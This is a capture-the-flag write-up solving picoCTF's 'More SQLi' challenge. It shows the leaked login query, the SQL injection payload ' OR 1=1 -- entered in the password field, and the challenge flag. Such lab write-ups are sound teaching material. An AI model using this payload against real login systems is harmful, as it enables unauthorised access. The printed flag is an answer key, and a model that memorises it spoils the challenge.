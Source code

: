 
# More SQLi

*Medium*

>### Description
>Can you find the flag on this website.
>Try to find the flag [here](http://saturn.picoctf.net:57651/).

### Solution

We are greeted with a login screen. When we fill in foo:bar, we can see the executed query by the server:

>SQL query: SELECT id FROM users WHERE password = 'bar' AND username = 'foo'

We can try logging in by performing SQL injection on the password field with the following payload:
```SQL
' OR 1=1 -- 
```
This allows us to log in, and in the response we can see the flag.

<details>
<summary>Yes! We got the flag:</summary> 
picoCTF{G3tting_5QL_1nJ3c7I0N_l1k3_y0u_sh0ulD_c8ee9477}
</details>